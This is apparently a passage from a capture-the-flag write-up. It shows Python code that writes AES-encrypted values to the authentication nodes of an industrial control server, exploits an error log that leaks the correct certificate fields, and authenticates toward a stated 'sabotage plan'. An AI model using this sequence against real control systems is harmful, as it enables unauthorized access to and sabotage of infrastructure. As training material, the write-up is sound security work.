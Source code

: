 The Authentication namespace has three fields: CommonName, Organization, and SerialNumber. To proceed with our sabotage plan, we need to authenticate, but we don’t know the correct values. Let’s try writing invalid encrypted values to these fields to see the server's behavior.

We use the enc function to encrypt values with AES-128 CBC and Base64-encode them:

```python
def enc(d, k, v):
    c = AES.new(k, AES.MODE_CBC, v)
    e = c.encrypt(pad(d.encode(), 16))
    return base64.b64encode(e).decode()
```

We write encrypted invalid values ("test", "test2", "test3") to the Authentication nodes:

```python
val = enc("test", k, v)
val2 = enc("test2", k, v)
val3 = enc("test3", k, v)

cn.set_value(val)
org.set_value(val2)
sn.set_value(val3)
print("Sent invalid encrypted auth values to observe behavior")
time.sleep(2)

err = el.get_value()
print(f"Error: {err}")
```
The server responds with:

```
[-] Authentication failed, check certificate values
```

We discover that ErrorLog leaks the correct values if wrong encrypted values are given:

- CommonName: GridCrypOp
- Organization: VolnayaOrg
- SerialNumber: 981337

![alt text](assets/cert-leak.png)

We encrypt these values and write them to authenticate:

```python
cn_val = "GridCrypOp"
org_val = "VolnayaOrg"
sn_val = "981337"

ecn = enc(cn_val, k, v)
eorg = enc(org_val, k, v)
esn = enc(sn_val, k, v)

cn.set_value(ecn)
org.set_value(eorg)
sn.set_value(esn)
print("Sent correct auth values\n")
```
